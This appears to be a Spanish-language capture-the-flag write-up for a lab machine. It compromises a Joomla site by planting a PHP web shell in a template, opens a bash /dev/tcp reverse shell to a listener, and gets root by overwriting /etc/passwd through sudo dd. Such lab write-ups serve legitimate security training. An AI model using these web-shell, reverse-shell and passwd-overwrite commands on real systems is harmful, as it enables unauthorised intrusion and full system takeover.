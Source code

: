 Fecha: 07/09/2024

Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240907220608.png)

Voy a hacer fuzzing:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](imágenes/Pasted%20image%2020240907220826.png)

Veo que hay un archivo "robots.txt", así que accedo al mismo: 
![](imágenes/Pasted%20image%2020240907221211.png)

Veo lo que podría ser una contraseña (`c2FubHVpczEyMzQ1`) Accedo al directorio "administrator" y veo lo que podrían ser un nombre de usuario (`TLuisillo_o`) y el nombre del servicio (`Joomla`):

![](imágenes/Pasted%20image%2020240907221358.png)

Pruebo el usuario y contraseña en el formulario de login de esta sección, pero no funcionan. 
![](imágenes/Pasted%20image%2020240907221329.png)

La contraseña podría estar en base64, así que pruebo a decodificarla:
![](imágenes/Pasted%20image%2020240907221707.png)

Pruebo con esta contraseña y, tampoco me deja iniciar sesión. Al probar con admin, lo consigo. 

![](imágenes/Pasted%20image%2020240907221843.png)

Busco en https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce y encuentro que puedo hacerme una reverse-shell. Añado `system($_GET['cmd']);` a error.php:

Podré ejecutar comandos con `curl -s 172.17.0.2/templates/cassiopeia/error.php?cmd=<comando>`
Me hago una reverse shell:
```bash
# Quiero ejecutar:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# Para ello, lo codificaré para url.
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27


# En una terminal, ejecuto:
nc -lvnp 9001
# En otra:
curl -s http://172.17.0.2/templates/cassiopeia/error.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27

```

Trato la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Como no encuentro la forma de escalar privilegios, busco ficheros .txt, encontrando uno con un nombre curioso:
![](imágenes/Pasted%20image%2020240907223915.png)

![](imágenes/Pasted%20image%2020240907223939.png)

Pruebo a iniciar sesión como "luisillo" usando esa contraseña. Funciona, así que miro como hacerme superusuario:
![](imágenes/Pasted%20image%2020240907224023.png)

En https://gtfobins.github.io/gtfobins/dd/#sudo encuentro que puedo ejecutar:
```bash
echo "root::0:0:root:/root:/bin/bash" | sudo dd of=/etc/passwd
```


![](imágenes/Pasted%20image%2020240907233013.png)

